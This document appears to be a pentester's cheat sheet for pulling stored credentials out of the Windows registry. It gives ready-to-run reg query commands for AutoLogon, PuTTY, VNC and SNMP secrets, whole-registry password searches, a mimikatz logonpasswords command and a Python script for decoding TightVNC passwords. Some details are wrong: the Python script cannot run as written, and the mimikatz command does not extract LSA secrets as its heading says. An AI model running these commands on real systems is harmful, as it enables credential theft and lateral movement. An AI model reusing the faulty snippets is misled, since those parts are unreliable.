 ## 1. AutoLogon Credentials

### Registry Path:

```cmd
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
```

### Commands to Query:

```cmd
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUsername
```
```cmd
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```
```cmd
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon
```

*   ``AutoAdminLogon = 1`` means auto-logon is enabled.
*   if ``DefaultPassword`` is missing, it might be stored in **LSA Secrets** instead.

---

## 2. PuTTY Stored Session

*   PuTTY saves **proxy credentials** in the registry.

### Registry Path

```cmd
HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions
```

### Commands To Query

```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\centos7 -v ProxyUsername
```

```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\centos7 -v ProxyPassword
```

*   Passwords might be encoded (Base64) but not encrypted. Decode with powershell.

```powershell
[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("<string>"))
```

---

##  3.  TightVNC Stored Password

*   TightVNC passwords are stored in the registry, often **encoded** using weak **XOR-Based encryption**

### Registry Path

```cmd
HKEY_CURRENT_USER\Software\TightVNC\Server
```

### Commands To Query

```cmd
reg query HKEY_CURRENT_USER\Software\TightVNC\Server /v Password
```

```cmd
reg query HKEY_CURRENT_USER\Software\TightVNC\Server /v PasswordViewOnly
```

*   use ``vncpwd.exe`` to decode VNC passowrds:

```cmd
C:\Users\Desktop\Tools\vncpwd\vncpwd.exe [Encrypted Password]
```

---

## 4.   VNC Credentials (Encrypted)

* ReaalVNC and WinVNC store credentials in the registry

### Registry Path

*   **WinVNC3**

```cmd
HKEY_CURRENT_USER\Software\ORL\WinVNC3\Password
```

*   **RealVNC**

```cmd
HKEY_CURRENT_USER\Software\RealVNC\WinVNC4 /v password
```

### Command to Query:

```cmd
reg query "HKCU\Software\ORL\WinVNC3" /v password
```
```cmd
reg query "HKLM\Software\RealVNC\WinVNC4" /v password
```

*   use ``vncpwd.exe`` to decode VNC passowrds:

```cmd
vncpwd.exe [Encrypted Password]
```

---

## 5.   SNMP Community Strings

###   Registry Path:

```cmd
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SNMP
```

### Commands to Query

```cmd
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP
```

---

## 6.   Searching for Passwords in Registry

### Search Entire Registry for "password" (Local Machine):

```cmd
reg query "HKEY_LOCAL_MACHINE" /s | findstr /i "pass*"
```

### Search Entire Registry for "password" (Current User):

```cmd
reg query "HKEY_CURRENT_USER" /s | findstr /i "pass*"
```

---

## 7.   Fault Tolerant Heap (FTH) Rules

*   ``FTH`` stored compatibility fixes for the application, which sometimes include sensitive info

### Registry Path:

```cmd
HKEY_LOCAL_MACHINE\Software\Microsoft\FTH
```


### Command to Query:

```cmd
reg query "HKLM\Software\Microsoft\FTH" /V RuleList
```

---

## Pro Tips:

### Extract LSA Secrets( if passwords are missing):

```cmd
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Extract VNC Passwords from Registry (Directly):

```powershell
(Get-ItemProperty -Path 'HKCU\Software\ORL\WinVNC3').Password
```

### Decrypt TightVNC Password

```python
import base64
key = 'tightvnc'
enc = b'PASSWORD_HEX'
dec = bytes([a ^ b for a, b in zip(enc, key * (len(enc) // len(key) + 1))])
print(dec.decode('utf-8'))
```